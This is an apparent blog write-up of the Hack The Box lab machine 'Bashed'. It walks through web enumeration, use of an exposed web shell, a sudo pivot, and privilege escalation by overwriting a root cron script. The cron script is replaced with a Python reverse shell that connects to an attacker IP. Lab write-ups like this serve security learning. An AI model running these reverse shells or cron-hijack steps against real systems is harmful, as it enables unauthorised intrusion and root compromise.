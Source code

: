```yaml
---
title: "Bashed"
date: 2023-06-24T23:52:47+02:00
tags: ["privesc","web","linux"]
categories: ["hackthebox"]
author: "Ayman Boulaich"
showToc: true
TocOpen: false
draft: false
hidemeta: false
comments: false
description: ""
canonicalURL: "https://canonical.url/to/page"
disableHLJS: true # to disable highlightjs
disableShare: false
disableHLJS: false
hideSummary: false
searchHidden: true
ShowReadingTime: true
ShowBreadCrumbs: true
ShowPostNavLinks: true
ShowWordCount: true
ShowRssButtonInSectionTermList: true
UseHugoToc: true
cover:
    image: "<image path/url>" # image path/url
    alt: "<alt text>" # alt text
    caption: "<text>" # display caption under cover
    relative: false # when using page bundles set this to true
    hidden: true # only hide on current single page
editPost:
    URL: "https://github.com/pwndside/pwndside.github.io/content"
    Text: "Suggest Changes" # edit text
    appendFilePath: true # to append file path to Edit link
---
```


## Room Information

- Room name: Bashed
- Difficulty level: Easy
- Room link: https://app.hackthebox.com/machines/Bashed

![Untitled](/HTB/bashed-icon.png)

## Tools Used

- Nmap
- Gobuster
- Nikto

## Port Scanning

![Untitled](/HTB/bashed-1.png)

In the port scan we can see that the only service running is a web server.

## Enumeration

![Untitled](/HTB/bashed-4.png)

![/Untitled](/HTB/bashed-5.png)

If we visit the website there are only one article with a web reverse shell information called phpbash, and a url to the github project.

In the url we can find some useful information like how works, this shell removes the necessity of do a traditional reverse shell.

Let’s try this but first some fuzzing

![Untitled](/HTB/bashed-6.png)

We can see that there is a uploads directory maybe we can try to upload a reverse shell.

With nikto, I found that the /dev directory maybe its useful

![Untitled](/HTB/bashed-7.png)

Inside the directory, there are two files, the two of them are the reverse shell which we have seen in the previous github project (seems like a reverse shell to his own machine). If we try to run one we get in.

## Gaining an Initial Foothold

![Untitled](/HTB/bashed-8.png)

We are logged like the web service and the user flag is in the arrexel home directory.

![Untitled](/HTB/bashed-9.png)

Now let’s elevate privilege

If we go to the / directory we can see that inside there is a script folder created by scriptmanager user.

When we try sudo -l we found that the the www-data user has acces to scriptmanager as sudo.

Let’s try `sudo -u scriptmanager -e /bin/bash` 

![Untitled](/HTB/bashed-10.png)

Don’t seem to work, maybe the web server doesn’t allow some commands.

Now let’s try to upload the reverse shell and this time trying to connect it to our machine instead of using the shell on /dev.

One way is to create a http server and curl the file in the victim machine. We need to modify the reverse shell file that I get [here](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) with our ip and port.

![Untitled](/HTB/bashed-11.png)

![Untitled](/HTB/bashed-12.png)

Now let’s open a listening port with netcat and run the shell.

![Untitled](/HTB/bashed-13.png)

![Untitled](/HTB/bashed-14.png)

Before nothing, we are going to pass from a dumb shell to a fully interactive one.

First once we spawn a bash with `python -c 'import pty; pty.spawn("/bin/bash")'` then lets keep the nc in background with ctrl^z, once done we use `stty raw -echo` and then `fg` to return to the web shell but fully interactive this time.

Let’s retry `sudo -u scriptmanager /bin/bash`

![Untitled](/HTB/bashed-15.png)

We are scriptmanager now, let’s see what we can do in the /scripts folder. It’s seems like there are two files in the folder. One of them [test.py](http://test.py) look like this:

```bash
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

This file is created by scriptmanager but the execution of the file needs be owned by root somehow because inside the execution we are opening the test.txt file that only can be modified with root permissions. If you observe the creation time of the file test.txt, you will notice that it undergoes changes every minute. This pattern strongly suggests the presence of a cron job, which is owned by the root user, and is responsible for executing the test.py script every minute.

We can use this to our advantage and change the content of the [test.py](http://test.py) file to a reverse shell and get the system own.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.17",1234)) //change this
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

I get this reverse shell from [pentestmonkey’s](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) handy dandy list of reverse shells.

Let’s set up a listener in the port 1234 and let the magic happen.

![Untitled](/HTB/bashed-17.png)

## Lessons Learned

- What insights did you gain from the room?
    
    I acquired knowledge on the functioning of a cron job and discovered ways to exploit it for potential machine compromise.
    
- Were there any novel tools or techniques employed?
    
    Notably, the utilization of nikto and various reverse shells were introduced.

**Thank you for reading, and happy hacking! 😄**